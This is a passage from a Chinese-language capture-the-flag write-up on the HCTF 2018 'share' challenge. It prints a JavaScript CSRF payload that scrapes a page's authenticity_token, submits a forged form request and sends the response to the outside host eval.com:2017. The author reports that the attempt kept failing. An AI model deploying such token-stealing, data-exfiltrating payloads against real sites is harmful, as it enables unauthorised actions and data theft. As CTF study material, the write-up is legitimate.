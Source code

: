 此时可以成功上传文件，可以在Alphatest页面，查看到当前总文件数。

然后通过CSRF构造下发。

```js
function send(e) {
    var t = new XMLHttpRequest;
    t.open("POST", "//eval.com:2017", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.send(e);
}
function submitRequest(authenticity_token)
{
    authenticity_token = authenticity_token.replace(/\+/g, "%2b");
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/file/Alpha_test", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.setRequestHeader("Referer", "http://share.2018.hctf.io/home/addtest");
    xhr.setRequestHeader("Origin", "http://share.2018.hctf.io");
    xhr.onload=function(evt){
      var data = evt.target.responseText;
      send(data);
    } 
    xhr.send("utf8=%E2%9C%93&authenticity_token="+authenticity_token+"&uid=30&fid=42&commit=submit");
}
function gettoken(){
    var t = new XMLHttpRequest;
    t.open("GET", "/home/addtest", !0),
    t.setRequestHeader("Content-type", "text/plain"),
    t.onreadystatechange = function() {
        4 == t.readyState && t.status
    },
    t.onload=function(evt){
      var data = evt.target.responseText;
      regex = /<input type="hidden" name="authenticity_token" value="(.+)?"/g;
      submitRequest(regex.exec(data)[1]);
    }
    t.send();
}
gettoken();
```

依旧一直报500，当时很懵，然后电脑刚好没电，没有继续试下去。也没好意思再问主办方，毕竟之前是自己没看源码。

第二天一早醒来...

![2018111115419149992367.png](https://xzfile.aliyuncs.com/media/upload/picture/20181112141245-f8aa8e84-e641-1.png)

吃瓜的我，感觉到一股深深的恶意....
